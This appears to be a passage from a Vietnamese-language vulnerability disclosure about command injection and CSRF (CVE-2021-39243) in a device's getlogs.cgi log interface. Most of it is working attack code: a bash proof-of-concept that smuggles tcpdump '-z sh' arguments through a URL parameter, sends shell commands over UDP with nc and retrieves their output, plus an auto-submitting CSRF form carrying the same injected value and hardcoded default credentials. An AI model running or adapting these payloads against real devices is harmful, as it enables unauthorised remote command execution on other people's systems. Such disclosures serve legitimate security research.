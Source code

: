 Bước tiếp theo để khai thác lỗ hổng này là gửi các lệnh đến cổng UDP 1234:

```bash
$ echo -e ";\n$CMD &>/tmp/capture.pcap;\n'\n$CMD &>/tmp/capture.pcap;" | nc -u $TARGET_HOST $UDP_PORT
```
Lệnh được gửi hai lần vì có thể, tệp chứa "'" trước trọng tải đã gửi. Chích lệnh hai lần bằng dấu "'" ở giữa đảm bảo rằng lệnh sẽ được thực thi bởi sh và không được hiểu là một chuỗi. Đầu ra của lệnh đã thực thi được chuyển hướng đến
tệp capture.pcap có thể được truy cập thông qua yêu cầu sau

```powershell
GET /capture.pcap HTTP/1.1
Host: $IP
```

Ba bước này được kết hợp trong kịch bản bằng chứng về khái niệm sau:

```bash
#!/bin/bash
#Author: D. Teuchert
CMD="whoami"
if [[ $# -eq 1 ]]; then
     CMD=$1
fi
TARGET_HOST="192.168.100.123"
UDP_PORT=1234
BASIC_AUTH_USERNAME="altus"
BASIC_AUTH_PASSWORD="nexto1234"
BASIC_AUTH_HEADER=$(printf "$BASIC_AUTH_USERNAME:$BASIC_AUTH_PASSWORD" | base64)

#Sending HTTP request with parameter injection in tcpdump
#Break out of tcpdump is done via a technique described here:
#https://insinuator.net/2019/07/how-to-break-out-of-restricted-shells-with-tcpdump/
curl -s -k -X "GET" -H "Host: $TARGET_HOST" -H "Authorization: Basic $BASIC_AUTH_HEADER" "http://$TARGET_HOST/getlogs.cgi?logtype=tcpdump&tcpdump_iface=eth0&tcpdump_count=1%20-G%201%20-z%20sh%20-U%20-A%20udp%20port%20$UDP_PORT">/dev/null &
#Send udp packet with payload
echo -e ";\n$CMD &>/tmp/capture.pcap;\n'\n$CMD &>/tmp/capture.pcap;" | nc -u $TARGET_HOST $UDP_PORT
echo -e "Executed \"$CMD\".\nResponse:"
#The output of the executed command was saved in capture.pcap
curl -s -k -X "GET" -H "Host: $TARGET_HOST" "http://$TARGET_HOST/capture.pcap"
```

2. Truy vấn yêu cầu trên nhiều trang web (CSRF) (CVE-2021-39243) Chứng minh khái niệm CSRF sau đây có thể được sử dụng để thực hiện bước đầu tiên của khai thác lệnh Injection:

```html
<html>
   <body>
   <script>history.pushState('', '', '/')</script>
     <form action="http://$IP/getlogs.cgi">
       <input type="hidden" name="logtype" value="tcpdump" />
       <input type="hidden" name="tcpdump_iface" value="eth0" />
       <input type="hidden" name="tcpdump_count" value="1 -G 1 -z sh -U -A udp port 1234" />
       <input type="submit" value="Submit request" />
     </form>
   </body>
</html>
```
